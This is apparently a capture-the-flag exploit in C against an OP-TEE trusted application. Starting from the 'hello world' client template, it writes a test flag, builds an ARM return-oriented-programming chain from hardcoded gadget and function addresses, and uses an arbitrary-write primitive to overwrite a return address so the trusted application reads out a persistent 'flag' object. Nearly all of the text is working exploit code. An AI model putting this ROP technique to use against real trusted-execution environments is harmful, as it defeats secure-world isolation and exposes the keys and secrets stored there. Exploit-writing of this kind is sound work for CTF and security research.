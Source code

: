 ```c
    /*
     * Open a session to the "hello world" TA, the TA will print "hello
     * world!" in the log when the session is created.
     */
    res = TEEC_OpenSession(&ctx, &sess, &uuid,
                   TEEC_LOGIN_PUBLIC, NULL, NULL, &err_origin);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_Opensession failed with code 0x%x origin 0x%x",
            res, err_origin);

    // for test
    write_obj(&sess, "flag", "flag{123123123}", 0x10);

    uint32_t ret_addr = 0x14c664; //0x0014c5f4;
    uint32_t gadget = 0x00118F84; // POP {R0-R3}; POP {R12,PC}
    uint32_t OpenPersistentObjectWrapper = 0x00117618;
    uint32_t TEE_ReadObjectData = 0x0011C95C;
    uint32_t buf = 0x14c800;
    uint32_t input_addr = 0x200860;
    uint32_t rop[0x100] = { 0, };

    size_t i = 0;
    rop[i++] = gadget;
    rop[i++] = ret_addr+9*4;    // r0: TEE_ObjectHandle *object
    rop[i++] = buf;             // r1: const char *obj_id = "flag"
    rop[i++] = 4;               // r2: size_t obj_id_sz
    rop[i++] = 1;               // r3: uint32_t obj_data_flag = TEE_DATA_FLAG_ACCESS_READ
    rop[i++] = 0;               // r12
    rop[i++] = OpenPersistentObjectWrapper+4+1;
    rop[i++] = 0xdeadbeef;      // r7

    rop[i++] = gadget;
    rop[i++] = 0;               // r0: TEE_ObjectHandle object
    rop[i++] = input_addr;      // r1: void *buffer
    rop[i++] = 0x40;            // r2: uint32_t size
    rop[i++] = buf + 8;         // r3: uint32_t *count
    rop[i++] = 0;               // r12
    rop[i++] = TEE_ReadObjectData+8+1;
    rop[i++] = 0xdeadbeef;      // r7

    //memset((char *)&rop[i], '\xaa', (0x100-i)*4);
    memcpy((char *)&rop[0x67], "flag\x00", 5); // buf
    abwrite(&sess, ret_addr, rop, 0x100*4);
    //hex_dump(rop, 0x100);
    puts((char *)rop);

    /*
     * We're done with the TA, close the session and
     * destroy the context.
     */
    TEEC_CloseSession(&sess);
    TEEC_FinalizeContext(&ctx);
    return 0;
}
```
